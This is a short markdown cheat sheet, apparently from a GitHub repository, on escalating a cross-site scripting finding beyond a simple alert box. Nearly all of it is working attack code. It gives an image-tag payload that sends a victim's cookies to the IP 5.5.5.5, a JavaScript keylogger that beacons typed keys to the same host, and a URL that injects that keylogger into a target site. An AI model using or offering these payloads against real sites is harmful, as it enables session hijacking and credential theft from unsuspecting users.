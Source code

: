 # Beyond alert
Going beyond the alert('xss')

## Info

After getting your xss alert box, what's next? This is not usually enough to "show impact", so on the good stuff!

## Techniques (code)

- Cookie Stealer
  ```js
  <img src=x onerror=this.src='http://5.5.5.5/?cookie='+document.cookie>
  ```

- Record key stokes
  Add this to a js file
  ```js
  var data = '';
  document.onkeypress = function(e) {
    var w = window.event ? event : e;
    var keystroke = w.keyCode ? w.keyCode : w.charCode;
    keystroke = String.fromCharCode(keystroke);
    data = data + keystroke;
  }
  window.setInterval(function(){
      new Image().src = 'http://5.5.5.5/?c=' + data;
      data = '';
  }, 1500);
  ```
  Then call the script in using xss
  ```js
  http://target.site/welcome.php?user=admin<script src>'http://5.5.5.5/keylogger.js'></script>
  ```

